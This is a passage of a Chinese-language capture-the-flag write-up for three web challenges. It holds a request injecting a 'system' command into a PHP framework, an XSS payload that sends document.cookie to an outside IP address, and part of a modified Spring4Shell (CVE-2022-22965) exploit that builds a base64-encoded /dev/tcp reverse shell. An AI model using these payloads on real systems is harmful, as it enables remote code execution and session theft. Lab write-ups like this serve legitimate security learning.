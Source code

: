 ```php
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode '_method=__construct' \
--data-urlencode 'filter[]=system' \
--data-urlencode 'method=get' \
--data-urlencode 'server[REQUEST_METHOD]=cat AAA.php'
```

感谢无名氏提前放置的一句话，这里借花献佛，直接无耻的用蚁剑连接了。

翻找目录找到flag。

## web-17 简陋的留言板

xss

基本上没有过滤任何内容，这里使用一个重定向将cookie补充在路径中转发过去。需要一个服务查看访问的路径。

```javascript
<script>
setTimeout(()=>{
document.location="http://10.167.90.69:1337/xss/"+encodeURIComponent(document.cookie).substring(0, 255)
}, 1000)
</script>
```

预留1s的时间，考验你点提交给管理员按钮的手速。

管理员访问链接后可以看到cookie，将获取cookie写入浏览器，重新留言即可看到flag。

## web-18 极简的Spring

CVE-2022-22965：Spring Framework远程代码执行漏洞

github上找了一个exploit稍微修改了一下，修改成反弹shell

```python
import requests
import argparse
from urllib.parse import urljoin
import base64


def make_runtime_payload(cmd, host=None, port=None):
    if host and port:
        bash_payload = base64.b64encode(f"bash -i >& /dev/tcp/{host}/{port} 0>&1".encode())
        # https://ares-x.com/tools/runtime-exec/
        payload = "bash -c {echo," + bash_payload.decode("utf-8") + "}|{base64,-d}|{bash,-i}"
        payload = f'"{payload}"'
        return payload
    else:
        payload = f'"{cmd}"'
        return payload


def url_encode(text):
    return text.replace('/', '%2F').replace(' ', '%20').replace('=', '%3D').replace('&', '%26').replace('"',
                                                                                                        "%22").replace(
        "'", "%27").replace('>', "%3E").replace('<', "%3C").replace('#', "%23").replace('?', "%3F").replace('+', "%2B")


```